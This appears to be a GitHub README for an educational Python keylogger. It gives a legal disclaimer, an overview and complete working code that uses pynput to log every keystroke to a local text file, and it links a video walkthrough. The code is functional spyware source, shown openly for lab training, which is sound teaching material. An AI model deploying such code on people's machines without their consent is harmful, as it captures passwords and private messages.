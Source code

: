 # Ethical Keylogger Project

## 🚨 Disclaimer

This project is intended strictly for educational and research purposes within controlled environments such as virtual labs, cybersecurity courses, or red team/blue team training scenarios. </br>

- Do not use this tool to monitor, log, or interfere with any system or user without their explicit, informed consent. </br>

- Unauthorized use of keyloggers or similar software is a criminal offense in many jurisdictions and may violate privacy laws, terms of service, and organizational policies. </br>

- The author of this repository does not condone any illegal activity and is not responsible for any misuse of the code or tools contained herein. </br>

- Use at your own risk and only on systems you own or are legally authorized to test. </br>

## Overview

This project is a Python-based keylogger built for educational, cybersecurity, and malware simulation purposes. It captures and logs keystrokes on a local system, including both standard and special keys (e.g., Enter, Tab, Shift, Control), and writes them to a plain text file for analysis. The tool demonstrates fundamental techniques used in basic keylogging and forms the foundation for understanding more advanced topics in malware behavior, digital forensics, and threat simulation. </br>

Key features: </br>

- Real-time keystroke capture using the pynput library. </br>

- Logging of alphanumeric and special keys to key_log.txt. </br>

- Simple and extensible architecture suitable for malware lab simulations. </br>

- Designed for ethical use in controlled environments only. </br>

## Project

#### Keylogger Code

```shell
from pynput import keyboard

log_file = "key_log.txt"

def on_press(key):
    print(f"Key pressed: {key}")  # Debug print
    try:
        with open(log_file, "a") as f:
            f.write(f'{key.char}')
    except AttributeError:
        with open(log_file, "a") as f:
            if key == keyboard.Key.space:
                f.write(' ')
            elif key == keyboard.Key.enter:
                f.write('\n')
            elif key == keyboard.Key.tab:
                f.write('\t')
            elif key == keyboard.Key.backspace:
                f.write('[Backspace]')
            elif key in (keyboard.Key.shift, keyboard.Key.shift_r):
                f.write('[Shift]')
            elif key in (keyboard.Key.ctrl, keyboard.Key.ctrl_r):
                f.write('[Control]')
            else:
                f.write(f'[{key}]')  # Log other special keys

with keyboard.Listener(on_press=on_press) as listener:
    print("Keylogger is running... Press Ctrl+C to stop.")
    listener.join()
```

#### Video Walkthrough

https://youtu.be/agXRtUbqxds
